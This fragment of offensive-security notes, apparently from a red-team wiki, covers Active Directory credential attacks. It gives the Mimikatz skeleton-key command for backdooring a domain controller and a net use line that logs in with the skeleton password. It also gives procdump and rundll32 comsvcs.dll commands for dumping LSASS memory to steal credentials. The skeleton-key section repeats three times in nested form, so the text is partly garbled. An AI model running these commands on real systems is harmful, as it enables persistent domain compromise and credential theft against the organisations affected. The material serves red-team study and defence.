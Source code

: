   * [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
  * Back door a privileged AD account with Mimikatz
  * To install the skeleton key
    * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
  * Use
    * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
    * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)
    * [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
    * Back door a privileged AD account with Mimikatz
    * To install the skeleton key
      * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
    * Use
      * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
      * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)
      * [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
      * Back door a privileged AD account with Mimikatz
      * To install the skeleton key
        * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
      * Use
        * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
        * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)
{% endtab %}
{% endtabs %}

### Endpoint Techniques

{% tabs %}
{% tab title="Dumping w/o LSASS" %}
* [https://ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz](https://ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz)
* [Dumping Lsass.exe to Disk Without Mimikatz and Extracting Credentials - Red Teaming Experiments](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz)&#x20;
* [https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/)
* ProcDump
  * \>procdump.exe -accepteula -ma lsass.exe lsass.dmp
    * will need local admin to dump LSASS
  * Create dump file by using options within tasklist
  * Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:
    * .\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp fu
{% endtab %}

